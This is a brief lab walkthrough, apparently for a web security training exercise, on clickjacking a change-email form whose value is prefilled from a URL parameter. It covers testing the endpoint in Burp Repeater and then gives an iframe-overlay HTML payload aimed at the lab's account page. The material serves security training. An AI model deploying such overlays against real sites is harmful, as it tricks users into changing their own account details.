 # Some cases of Clickjacking

## 1. Clickjacking with form input data prefilled from a URL parameter

Log on to the account with `username = wiener` , `password = peter`

Change the email into:  `ian@hacker.com`

Using Burp, the Proxy tab proceeds to search for the `my-account/change-email` section. Then `Send to repeater`.

In the repeater, when sending with the `POST` method, the response side returns
a result of `302 Found`. Therefore, we proceed to change the `POST` method to `GET` and send back => Return that found `ian@hacker.com`

Go back to the website and click on `Go to exploit server` to proceed with the change 
structure the body and occupy the server with the following information:

`

<style>
   iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }  
</style>
<div> Test me </div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>`




    
